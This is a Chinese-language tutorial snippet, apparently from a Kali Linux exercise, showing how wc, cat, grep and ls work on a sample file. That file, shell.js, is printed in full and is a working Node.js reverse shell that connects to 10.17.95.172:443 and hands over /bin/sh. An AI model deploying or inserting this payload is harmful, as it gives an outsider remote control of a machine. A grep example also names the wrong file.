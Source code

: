 :::code-group
```bash [wc 查看 'shell.js' 文件内的单词数，行数]
wc -w 
wc -l
```

```text [输出结果]
┌──(kali㉿bogon)-[~/Project]
└─$ wc -w shell.js 
34 shell.js
                                                                                                                                          
┌──(kali㉿bogon)-[~/Project]
└─$ wc -l shell.js 
12 shell.js
                                                                                                                                          
┌──(kali㉿bogon)-[~/Project]
└─$ 
```
:::

:::code-group
```bash [cat 命令查看 'shell.js' 文件内容]
cat shell.js
```

```js [shell.js]
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.17.95.172", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
:::

##  文件查找

最简单的查找：
::: code-group

```bash [grep 查找'shell.js' 中包含 ‘10.17.95.172’的行 ]
grep "10.17.95.172" hello.jpg 
```

```bash [与ls结合查找指定文件] 
 ls | grep shell.js
```

:::
